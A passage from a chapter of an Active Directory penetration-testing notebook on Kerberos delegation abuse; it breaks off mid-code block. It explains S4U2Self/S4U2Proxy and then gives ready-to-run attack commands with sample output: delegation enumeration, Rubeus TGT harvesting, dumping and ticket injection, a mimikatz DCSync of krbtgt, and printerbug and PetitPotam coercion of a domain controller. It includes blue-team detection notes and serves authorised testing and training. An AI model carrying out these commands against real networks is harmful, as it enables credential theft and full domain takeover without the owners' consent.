






This is Chapter 8 of the Active Directory attack notebook — Notebook 18. Chapter 7 closed the domain-dominance arc with DCSync and DCShadow: once you can replicate secrets or write to the directory as a rogue DC, you own the forest. This chapter steps back to a class of primitives that very often *gets* you to that point, and which lives in the murky middle ground between a benign feature and a full domain takeover: **Kerberos delegation**.

Delegation exists for a genuine, boring reason. Imagine a front-end web server that must query a back-end SQL database *as the user who is browsing the site*, so the database can apply that user's row-level permissions. The web server never sees the user's password — Kerberos never sends passwords to services — so how does the web server prove to SQL that it is acting on the user's behalf? The answer is delegation: Active Directory lets a service obtain tickets to a second service *in the name of a user who authenticated to the first*. That is the feature. The abuse is that the exact same machinery, misconfigured or combined with a coercion trick or a stray ACL, lets an attacker impersonate **any user in the domain — including Domain Admins — to a service of their choosing**, without ever knowing that user's password.

There are three families, and they are genuinely different in mechanism, in what an attacker needs, and in how you detect them:

- **Unconstrained Delegation (KUD)** — the oldest and most dangerous. A computer or account flagged for unconstrained delegation caches the full **TGT** of every user who authenticates to it. Steal that TGT and you *are* that user, anywhere. Combine it with a coercion trick (the printer bug, PetitPotam) to force a Domain Controller to authenticate to your unconstrained host, and you harvest the DC's own TGT — game over.
- **Constrained Delegation (KCD)** — Microsoft's "safer" answer. An account is allowed to delegate only to a *named list* of services (`msDS-AllowedToDelegateTo`). But the **S4U2Self / S4U2Proxy** extensions let a compromised delegation account request tickets **as any user** to those services — and a subtle trick lets you rewrite the service name to reach services never on the list.
- **Resource-Based Constrained Delegation (RBCD)** — the modern favourite. The permission lives on the *target* (`msDS-AllowedToActOnBehalfOfOtherIdentity`), not the source. This means that if you can *write one attribute* on a computer object — a right you get from `GenericWrite`, `GenericAll`, `WriteDACL`, or being the object's owner — you can point delegation at a machine account you control and get a SYSTEM ticket to that host. RBCD turned a huge class of ACL misconfigurations into instant local-admin-on-a-DC-or-server.

By the end of this chapter you will understand the Kerberos **S4U** extension set from first principles, be able to find every delegation misconfiguration in a domain, and be able to exploit all three families with Rubeus on Windows and Impacket on Linux — plus detect and remediate each one. Everything here assumes an explicit, written, scoped engagement or a lab you built yourself (Part 13 shows how). Delegation abuse forges tickets for Domain Admins against production services — treat it with the gravity the blue team on the other side treats it.

## Part 1: The Big Picture — What Delegation Is and Why It Is So Dangerous

Before any tooling, build the mental model. Kerberos, as covered in Chapters 4–6, is a ticket-based protocol. A user authenticates once to the Key Distribution Center (KDC, which runs on every Domain Controller) and receives a **Ticket-Granting Ticket (TGT)**. To use a service, the user presents the TGT and asks for a **service ticket (TGS)** for that specific service, identified by a **Service Principal Name (SPN)** such as `HTTP/web01.corp.local` or `MSSQLSvc/sql01.corp.local:1433`. The service decrypts the TGS with its own long-term key and trusts the identity inside.

The problem delegation solves — the **"double hop"** — is that a TGS proves the user's identity to the web server and *nothing more*. When the web server needs to talk to SQL *as the user*, it has no ticket for SQL, and it cannot mint one because it does not have the user's password or TGT. Delegation is the set of KDC features that let the web server obtain a `MSSQLSvc/...` ticket that names the *user* as the client. If you have ever hit the classic "double-hop problem" in a PowerShell remoting session (credentials work on the first hop, fail on the second), you have met the same mechanism from the defender's side.

There are three ways AD can grant that capability, and they map exactly to our three attack families:



The single idea to internalise: **delegation lets a machine speak in another user's name.** Every attack in this chapter is a way to make that machine speak in a name you did not earn — usually `Administrator` or a Domain Admin — toward a service that gives you code execution (typically `CIFS/`, `HOST/`, `HTTP/` with WinRM, or `LDAP/` for a DCSync).

Why is this so much more dangerous than, say, cracking one password? Because delegation abuse is **credential-less impersonation**. You never touch the target user's password or hash. A Kerberoast (Chapter 4) gives you a hash you still have to crack; a delegation attack gives you a *valid service ticket for a Domain Admin* in one request, with no cracking, often with no lockout risk, and — in the RBCD case — from nothing more than a single misconfigured ACL that BloodHound will happily draw an edge for.

**A note on the two flags that gate everything.** On every account object AD stores a bitmask attribute `userAccountControl` (UAC — no relation to the Windows prompt). Two bits matter here:

- `TRUSTED_FOR_DELEGATION` (`0x80000`, decimal 524288) — the account is trusted for **unconstrained** delegation.
- `TRUSTED_TO_AUTH_FOR_DELEGATION` (`0x1000000`, decimal 16777216) — the account may use **protocol transition** (S4U2Self with a forwardable result), the key to constrained delegation *without* the user ever touching this service.

And one flag that *protects* an account from all of it:

- `NOT_DELEGATED` (`0x100000`, decimal 1048576) — the "**Account is sensitive and cannot be delegated**" checkbox. A user with this flag can never be impersonated through delegation. Members of the **Protected Users** group get this behaviour implicitly. Remember these — they are both the defence and the thing you check before wasting time trying to impersonate `Administrator`.

## Part 2: Kerberos S4U From First Principles — S4U2Self and S4U2Proxy

Constrained delegation and RBCD both ride on two Kerberos extensions defined in **MS-SFU** (Microsoft's "Kerberos Protocol Extensions: Service for User and Constrained Delegation Protocol"). You cannot exploit either family without understanding them, so we build them from zero.

### S4U2Self — "Service for User to Self"

S4U2Self lets a service ask the KDC: *"Give me a service ticket to myself, but make the client identity in that ticket be some arbitrary user I name — even though that user never authenticated to me."* The KDC obliges and returns a TGS **for the service, on behalf of the named user**.

Why would that be safe? Because on its own the resulting ticket is only usable *against the service that asked for it* — the service is essentially fabricating a ticket to itself, which it could arguably do anyway since it holds its own key. S4U2Self exists so a service that authenticated a user by some *non-Kerberos* means (a web form, a client certificate) can still obtain a Kerberos ticket representing that user, for local authorization decisions. This is called **protocol transition** (transitioning from some other protocol *to* Kerberos).

The crucial property: the ticket S4U2Self returns is **forwardable** *only if* the requesting account has the `TRUSTED_TO_AUTH_FOR_DELEGATION` bit set. A forwardable S4U2Self ticket is the raw material for the next step.

### S4U2Proxy — "Service for User to Proxy"

S4U2Proxy lets a service take a forwardable ticket *for a user* (typically the one it just got from S4U2Self) and exchange it for a **service ticket to a second, different service, still in the user's name.** The KDC will only allow this if the requesting account is authorised to delegate to that second service — which is exactly what `msDS-AllowedToDelegateTo` (classic constrained) or the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` (RBCD) encodes.

Chained together — **S4U2Self to obtain a forwardable ticket as `Administrator`, then S4U2Proxy to convert it into a `CIFS/target` ticket as `Administrator`** — this is the entire constrained/RBCD attack. The compromised source account never needed the victim's password. It only needed (a) its own key, and (b) permission to delegate to the target.



**The subtle detail that becomes an attack (the alternate-service-name / "any SPN on the same host" trick):** the SPN in the S4U2Proxy request is only loosely validated. The KDC checks the *host portion* and the *service class* against what the account is allowed to delegate to, but Rubeus/Impacket can request a ticket for `CIFS/host`, then rewrite the service class in the ticket to `HOST/`, `HTTP/`, `LDAP/`, `WSMAN/`, etc. — because a service ticket's usability is keyed on the *target account's* key, and all SPNs registered to one computer account share that account's key. So constrained delegation "only to `TIME/dc01`" in practice often means delegation to **every service on dc01**, including `LDAP/dc01` (→ DCSync) and `HOST/dc01` (→ scheduled tasks / PsExec). This is Alberto Solino / Elad Shamir's well-known finding and it is why "constrained" is far less constrained than its name suggests.

## Part 3: The PAC, Forwardable Tickets, and the "Sensitive" Flag

Two more concepts make the attacks (and their limits) concrete.

**The PAC (Privilege Attribute Certificate).** Every Kerberos ticket in AD carries a PAC — a signed blob of the client's SIDs, group memberships, and (in modern AD) claims. When you impersonate `Administrator` via S4U, the KDC builds the PAC for the *impersonated* user, so the resulting ticket really does carry Domain Admin group SIDs. That is what makes the impersonation total: the target service reads the PAC and grants Domain Admin-level access. The PAC is signed with the target service's key and the KDC key, so you cannot hand-edit it — but with S4U you do not need to; the KDC builds a genuine one for you.

**Forwardable vs. non-forwardable.** A ticket must be **forwardable** to be usable in S4U2Proxy. In classic constrained delegation *with* protocol transition (`TRUSTED_TO_AUTH_FOR_DELEGATION` set), the S4U2Self ticket comes back forwardable and everything works. In classic constrained delegation *without* protocol transition (delegation configured but the "Use Kerberos only" option), S4U2Self returns a **non-forwardable** ticket and the S4U2Proxy step fails for arbitrary users — you can only delegate a ticket a real user actually forwarded to you. **RBCD ignores this limitation in practice**: because you control the source computer account fully (you created it), you can perform S4U and the resulting ticket is forwardable enough for S4U2Proxy against the RBCD-configured target. This asymmetry is why RBCD is the most reliable of the three.

**The "sensitive and cannot be delegated" flag revisited.** If the user you try to impersonate has `NOT_DELEGATED` set, or is in **Protected Users**, the KDC refuses to include a usable PAC / refuses the S4U — your impersonation of *that specific user* fails. Defenders use this to protect Tier-0 accounts. As an attacker, before you burn effort impersonating `Administrator`, you check whether `Administrator` is protected; if it is, you pick a different high-value principal that is not (very often there is an un-protected DA-equivalent service or a domain admin that predates the hardening). We will script that check.

| Delegation type | Permission lives on | Key attribute / flag | Needs coercion? | Forwardable-ticket limitation |
|---|---|---|---|---|
| Unconstrained | Source computer/account | `TRUSTED_FOR_DELEGATION` UAC bit | Usually yes (to force a DC/victim to auth) | N/A — steals real cached TGTs |
| Constrained (with protocol transition) | Source account | `msDS-AllowedToDelegateTo` + `TRUSTED_TO_AUTH_FOR_DELEGATION` | No | None — S4U2Self returns forwardable |
| Constrained (Kerberos-only, no transition) | Source account | `msDS-AllowedToDelegateTo` only | Yes (need a real forwarded ticket) | S4U2Self non-forwardable |
| RBCD | **Target** object | `msDS-AllowedToActOnBehalfOfOtherIdentity` | No | Works because you control the source acct |

## Part 4: Finding Delegation — Enumeration From Linux and Windows

You cannot exploit what you have not found. Delegation state is stored in `userAccountControl` bits and in two LDAP attributes, so every enumeration technique below is just an LDAP query in disguise.

### The three things to enumerate

1. **Unconstrained** — computers/accounts where `userAccountControl` has `TRUSTED_FOR_DELEGATION (0x80000)`. Every DC has this by design (that is normal); what you hunt for is a *non-DC* computer or a *user* account with the bit.
2. **Constrained** — accounts with a non-empty `msDS-AllowedToDelegateTo`. Note whether `TRUSTED_TO_AUTH_FOR_DELEGATION` is also set (protocol transition = you can impersonate anyone).
3. **RBCD** — computers with a non-empty `msDS-AllowedToActOnBehalfOfOtherIdentity`, *and* — more importantly for offence — computers where **you** have write access to that attribute (that is an ACL question, answered by BloodHound).

### Impacket's `findDelegation.py` (Linux, from scratch)

**What it is:** part of the Impacket suite (installed on Kali via `pipx install impacket` or `apt install impacket-scripts`). `findDelegation.py` authenticates over LDAP and prints every account with any delegation configured, classified for you. It is the fastest first pass on a Linux attack box with a single domain credential.

```bash
# Syntax: findDelegation.py DOMAIN/USER:PASSWORD -dc-ip <DC>
findDelegation.py corp.local/jdoe:'Summer2026!' -dc-ip 10.10.10.10
```

Annotated realistic output:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

AccountName      AccountType  DelegationType              DelegationRightsTo
---------------  -----------  --------------------------  ----------------------------
WEB01$           Computer     Unconstrained               N/A
SVC-SQL          Person       Constrained w/ Protocol T.  MSSQLSvc/sql01.corp.local:1433
SVC-BACKUP       Person       Constrained                 CIFS/fs01.corp.local
FS02$            Computer     Constrained w/ Protocol T.   TIME/dc01.corp.local
DB03$            Computer     Resource-Based Constrained   SVC-WEB$
```

Read this like a treasure map: `WEB01$` is a non-DC with unconstrained delegation (coercion target). `SVC-SQL` has *protocol transition* → if you own `SVC-SQL` you can impersonate anyone to SQL. `FS02$` delegates to `TIME/dc01` with transition — the alternate-service trick turns `TIME/` into `CIFS/`/`HOST/`/`LDAP/` on the DC. `DB03$` trusts `SVC-WEB$` via RBCD — if you own `SVC-WEB$`, you own `DB03$`.

### PowerView (Windows, from scratch)

**What it is:** PowerView (part of PowerSploit / now maintained in the ghostpack & BloodHound ecosystems) is a PowerShell recon toolkit that wraps LDAP into friendly cmdlets. Import it from a folder you control:

```powershell
Import-Module .\PowerView.ps1
# Or dot-source: . .\PowerView.ps1
```

Unconstrained delegation (exclude DCs, which legitimately have it):

```powershell
Get-DomainComputer -Unconstrained -Properties dnshostname,useraccountcontrol |
  Where-Object { $_.useraccountcontrol -notmatch 'SERVER_TRUST_ACCOUNT' }
```

Constrained delegation (accounts with an allowed-to-delegate-to list):

```powershell
Get-DomainUser -TrustedToAuth -Properties samaccountname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth -Properties dnshostname,msds-allowedtodelegateto
```

RBCD (accounts that have `msDS-AllowedToActOnBehalfOfOtherIdentity` set):

```powershell
Get-DomainComputer -Properties dnshostname,'msds-allowedtoactonbehalfofotheridentity' |
  Where-Object { $_.'msds-allowedtoactonbehalfofotheridentity' }
```

### Raw LDAP with `ldapsearch` (no tooling, most portable)

Every technique above is one of these filters. Learn them and you can enumerate from any box with an LDAP client.

```bash
# Unconstrained: UAC bit 0x80000 set
ldapsearch -x -H ldap://10.10.10.10 -D 'jdoe@corp.local' -w 'Summer2026!' \
  -b 'DC=corp,DC=local' \
  '(userAccountControl:1.2.840.113556.1.4.803:=524288)' \
  sAMAccountName dNSHostName

# Constrained: attribute msDS-AllowedToDelegateTo present
ldapsearch ... '(msDS-AllowedToDelegateTo=*)' sAMAccountName msDS-AllowedToDelegateTo

# Protocol transition bit 0x1000000
ldapsearch ... '(userAccountControl:1.2.840.113556.1.4.803:=16777216)' sAMAccountName

# RBCD configured
ldapsearch ... '(msDS-AllowedToActOnBehalfOfOtherIdentity=*)' sAMAccountName
```

The magic OID `1.2.840.113556.1.4.803` is the **LDAP_MATCHING_RULE_BIT_AND** rule — "this integer attribute, ANDed with N, is non-zero", i.e. "this bit is set." Memorise it; it is how every UAC-flag query works.

**Red team usage:** run `findDelegation.py` immediately after gaining any credential — delegation misconfigs are common and are often the shortest path to DA. **Blue team usage:** the exact same LDAP queries, run on a schedule, are your audit — anything with unconstrained delegation that is not a DC, or any user with protocol transition, is a finding.

### BloodHound is where RBCD really lives

For unconstrained and constrained, the LDAP queries above suffice. For **RBCD as an *offensive* opportunity**, the question is not "who already has RBCD configured" but "**on which computer objects do I have `GenericWrite`/`GenericAll`/`WriteDACL`/`Owns`?**" — because any of those lets you *set* `msDS-AllowedToActOnBehalfOfOtherIdentity` yourself. BloodHound (Chapter 2) draws these as edges. In BloodHound CE, run:

```cypher
// Computers where an owned principal can write the RBCD attribute
MATCH p=(n)-[:GenericWrite|GenericAll|WriteDacl|Owns|WriteAccountRestrictions]->(c:Computer)
WHERE n.owned = true
RETURN p
```

Any hit is a candidate for the RBCD attack in Part 8. This is the single most productive delegation query in a modern engagement.

## Part 5: Unconstrained Delegation — Mechanics and TGT Theft

Unconstrained delegation is the original (Windows 2000) model and the most catastrophic. When a computer account has `TRUSTED_FOR_DELEGATION` set and a user authenticates to *any* service on that computer via Kerberos, the KDC includes the user's **forwardable TGT inside the service ticket**, and the service (LSASS on that host) **caches the TGT in memory**. The design intent: the host can now use that TGT to obtain tickets to *any* back-end service as the user (hence "unconstrained" — no service list). The abuse: anyone who is local admin / SYSTEM on that host can rip every cached TGT out of LSASS and replay them.



The catch: you have to *wait for* or *induce* a valuable victim to authenticate. Sitting on a random web server and hoping a Domain Admin logs in is slow. This is where **authentication coercion** turns unconstrained delegation from "maybe someday" into "in the next 60 seconds": you *force* a Domain Controller's computer account to authenticate to your unconstrained host, harvest **DC01$'s TGT**, and then DCSync as the DC. That combination — **unconstrained delegation + coercion** — is one of the most reliable full-domain-compromise chains in existence, and it is why unconstrained delegation on anything other than a DC is treated as a critical finding.

### Rubeus — the tool, from scratch

**What it is:** Rubeus (GhostPack, C#) is the definitive Windows Kerberos abuse tool. It requests, forges, renews, dumps, and monitors tickets. It is the offensive counterpart to `klist`. You typically run it from a foothold on a Windows host you control (dropped as `Rubeus.exe` or reflectively loaded via Cobalt Strike / `execute-assembly`). Core commands you will use in this chapter:

| Rubeus command | Purpose |
|---|---|
| `Rubeus.exe monitor /interval:5 /nowrap` | Continuously watch for and print new TGTs arriving in LSASS (unconstrained harvesting) |
| `Rubeus.exe dump /nowrap` | Dump all tickets currently cached in LSASS (needs local admin/SYSTEM) |
| `Rubeus.exe tgtdeleg /nowrap` | Trick to extract a *usable, forwardable* TGT for the current user without admin (uses GSS-API delegation) |
| `Rubeus.exe asktgt /user: /rc4:/aes256: ` | Request a TGT given a hash/key |
| `Rubeus.exe s4u ...` | Perform S4U2Self + S4U2Proxy (constrained / RBCD) |
| `Rubeus.exe ptt /ticket:<b64>` | Inject a ticket into the current logon session |

`/nowrap` prints the base64 ticket on one unbroken line so you can copy-paste it; without it Rubeus wraps at 80 columns and you will corrupt the blob.

### Harvesting TGTs on the unconstrained host

Once you are local admin/SYSTEM on the unconstrained box (`WEB01`), start monitoring:

```powershell
# Watch for inbound TGTs every 5 seconds, single-line output
Rubeus.exe monitor /interval:5 /nowrap
```

Realistic output when a victim authenticates:

```
[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 11/22/2026 3:14:07 AM UTC - Found new TGT:

  User                  :  DC01$@CORP.LOCAL
  StartTime             :  11/22/2026 3:14:06 AM
  EndTime               :  11/22/2026 1:14:06 PM
  RenewTill             :  11/29/2026 3:14:06 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

  doIFujCCBbagAwIBBaEDAgEWooIEsz...<long single line>...
```

That `DC01$` TGT is the domain's crown jewels arriving on a silver platter. Inject and use it:

```powershell
Rubeus.exe ptt /ticket:doIFujCCBbagAwIBBaEDAgEWooIEsz...
# Now confirm and DCSync
klist
mimikatz # lsadump::dcsync /domain:corp.local /user:corp\krbtgt
```

We do the full coercion-driven version end-to-end in the lab (Part 12).

### Dumping already-cached tickets with `Rubeus dump` and Mimikatz

`monitor` waits for *new* authentications; `dump` grabs everything **already** sitting in LSASS. Use it the moment you land admin on an unconstrained host — a Domain Admin may have authenticated minutes ago and their TGT is still cached:

```powershell
Rubeus.exe dump /nowrap
```

```
[*] Action: Dump Kerberos Ticket Data (All Users)

  UserName                 : DA-svc
  Domain                   : CORP
  LogonId                  : 0x3e9a41
  UserSID                  : S-1-5-21-...-1109
  ServiceName              : krbtgt/CORP.LOCAL
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
  base64ticket             : doIFuj...<TGT>...
```

The Mimikatz equivalent (`sekurlsa::tickets /export`) writes `.kirbi` files to disk that you convert for Linux tooling with Impacket's `ticketConverter.py`. **Red team usage:** on an unconstrained host, `dump` first, then leave `monitor` running while you coerce — belt and braces. **Blue team usage:** LSASS access by anything other than known EDR/AV is the detection surface here (Sysmon Event ID 10 with `GrantedAccess` `0x1010`/`0x1410` targeting `lsass.exe`); the tickets themselves never touch disk unless the attacker exports them.

### `tgtdeleg` — extracting a usable TGT *without* local admin

A lesser-known Rubeus trick: `tgtdeleg` abuses the GSS-API "delegation" flag to make the current user hand *you* a forwardable copy of *their own* TGT — no LSASS access, no admin required — by initiating a Kerberos AP-REQ with delegation to a service and capturing the forwarded ticket locally:

```powershell
Rubeus.exe tgtdeleg /nowrap
```

This matters for the unconstrained chain because when you *are* the unconstrained service, you can extract the forwarded TGTs of connecting users at low privilege. It is also the cleanest way to grab your own TGT for use in a Pass-the-Ticket pivot without touching LSASS at all.

## Part 6: Coercion — Making a Domain Controller Authenticate to You

Unconstrained delegation is a trap that needs bait. **Coercion** primitives are RPC calls that *make* a remote machine authenticate (as its computer account) to a host you name. Point that host at your unconstrained box and you harvest the target's TGT. The best-known are:

- **The Printer Bug (MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx`)** — abused by `printerbug.py` / `SpoolSample.exe`. Asks the target's Print Spooler to notify you of print-queue changes at a UNC path you provide; the notification authenticates as the target machine. Works against any host with the Spooler service running (very common on DCs historically).
- **PetitPotam (MS-EFSRPC `EfsRpcOpenFileRaw` and friends)** — abused by `PetitPotam.py`/`petitpotam.exe`. Uses the Encrypting File System remote protocol; originally worked *unauthenticated* against unpatched DCs, a huge deal in 2021. Still works authenticated on many patched hosts via alternate EFSRPC methods.
- **DFSCoerce (MS-DFSNM)**, **ShadowCoerce (MS-FSRVP)**, **CoercevNet** — the same idea over other RPC interfaces, useful when Spooler and EFS are patched/disabled. `coercer` bundles them all and sprays every known method.



### printerbug.py (Impacket, from scratch)

**What it is:** a small Impacket script that triggers the MS-RPRN printer bug. You give it a domain credential, the *victim* (whose Spooler you poke), and the *listener* (your unconstrained host or a relay).

```bash
# printerbug.py DOMAIN/USER:PASS@<VICTIM>  <LISTENER>
printerbug.py corp.local/jdoe:'Summer2026!'@10.10.10.10 web01.corp.local
```

```
[*] Impacket v0.12.0 - Copyright Fortra, LLC
[*] Attempting to trigger authentication via rprn RPC at 10.10.10.10
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked
```

(The `0x5` is expected — the callback still fires. On `web01` your `Rubeus monitor` now prints `DC01$`'s TGT.)

### PetitPotam.py (from scratch)

```bash
# PetitPotam.py <LISTENER> <VICTIM>   (add creds if the DC is patched against unauth)
PetitPotam.py -u jdoe -p 'Summer2026!' -d corp.local web01.corp.local 10.10.10.10
```

```
[*] Connecting to ncacn_np:10.10.10.10[\PIPE\lsarpc]
[+] Successfully bound!
[*] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

**Blue team usage:** disable the **Print Spooler** on Domain Controllers and servers that do not print (it should never run on a DC); patch and restrict **EFSRPC**; and — the structural fix — **remove unconstrained delegation entirely** or use the **Kerberos "Protected Users" group** and **`Account is sensitive and cannot be delegated`** on all Tier-0 accounts so their TGTs are never forwardable and never cache on an unconstrained host. Coercion is loud on the network (SMB/RPC bursts) and the resulting `DC01$` logon to a non-DC is anomalous — both are detectable (Part 11).

## Part 7: Constrained Delegation — S4U Abuse in Practice

Now the S4U theory from Part 2 becomes commands. Scenario: you have compromised (cracked, dumped, or otherwise obtained the credentials/hash of) an account that has **constrained delegation with protocol transition** — say `SVC-SQL`, allowed to delegate to `MSSQLSvc/sql01.corp.local:1433` and with `TRUSTED_TO_AUTH_FOR_DELEGATION` set. You will impersonate `Administrator` to SQL, and then use the alternate-service trick to reach `CIFS/sql01` for a full file-system / PsExec foothold.

### On Windows with Rubeus

First you need a way to authenticate as `SVC-SQL` — its plaintext, its RC4 (NT hash), or its AES key. Say you dumped its NT hash. Rubeus' `s4u` performs the whole S4U2Self + S4U2Proxy chain in one call:

```powershell
